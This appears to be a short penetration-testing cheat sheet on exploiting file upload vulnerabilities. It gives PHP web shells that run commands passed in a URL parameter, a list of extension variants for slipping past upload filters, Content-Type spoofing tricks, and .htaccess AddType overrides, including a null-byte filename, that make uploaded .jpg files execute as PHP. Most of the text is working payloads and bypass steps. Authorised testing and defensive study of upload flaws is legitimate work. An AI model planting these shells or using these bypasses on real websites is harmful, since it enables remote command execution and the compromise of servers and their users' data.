 You should always test for file upload vulnerabilities by trying to upload simple php shells in target websites.

    <?php system('ls') ?>
  
    <?php system('id') ?>
  
    <?php system($_GET['cmd']); ?>       to get the file http://site.com/files/avatars/profile.jpg?cmd=ls

## Via Common php file extensions:
1. .php
2. .php3
3. .php4
4. .php5
5. .php6
6. .phtml
7. .png.php
8. .jpg.php
9. .jpeg.php


for shell.php above add ?cmd=<command-e.g whoami> in the path where the file is uploaded eg /images/safeImage.php?cmd=whoami

## via Content-Type Header Tricks (For Upload Bypass)
image/jpeg	Upload shell.php but rename it shell.jpg and set this as Content-Type. Some apps only check the Content-Type.
application/x-php	Old trick if server-side allows this — rare now.
application/octet-stream	Generic binary stream. Sometimes used to bypass filters that expect image/*.
text/plain	Might bypass if the app only checks for image MIME types.
multipart/form-data; boundary=xyz	Used to send raw POST data for file upload, manipulating boundaries and headers.
text/html	Sometimes used to trick filters, especially in combo with file extension manipulation.
image/png + fake header	Use a real image header + PHP code.


## Via .htaccess:
filename=".htaccess"    OR    ".htaccess%00.jpg"

      AddType application/x-httpd-php .jpg         ---->This will process any jpg file uploaded as php: Also make sure to set Content-Type: application/x-php when uploding the jpg

      AddType text/html .jpg                       ---->This will process any jpg file uploaded as html

